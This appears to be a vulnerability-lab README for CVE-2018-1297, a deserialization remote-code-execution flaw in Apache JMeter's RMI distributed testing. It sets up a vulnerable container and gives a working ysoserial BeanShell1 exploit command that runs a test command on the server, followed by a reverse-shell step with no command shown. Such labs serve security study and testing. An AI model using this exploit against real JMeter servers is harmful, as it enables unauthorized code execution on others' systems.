


# Apache JMeter RMI Deserialization Remote Code Execution (CVE-2018-1297)

[中文版本(Chinese version)](README.zh-cn.md)

Apache JMeter is an Apache project that can be used as a load testing tool for analyzing and measuring the performance of a variety of services, with a focus on web applications.

When using Distributed Test only (RMI based), Apache JMeter 2.x and 3.x uses an unsecured RMI connection. This could allow an attacker to get Access to JMeterEngine and send unauthorized code.

## Vulnerable environment

Execute following command to start a JMeter v3.3 RMI server:

```
docker compose up -d
```

After the server is started, the RMI is listening on port 1099.

## Exploit

Use [ysoserial](https://github.com/frohoff/ysoserial) to exploit the deserialization by the gadget `BeanShell1`:

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

Execute `docker compose exec jmeter bash` to enter the container, you will see the `/tmp/success` has been created:



Get a reverse shell:


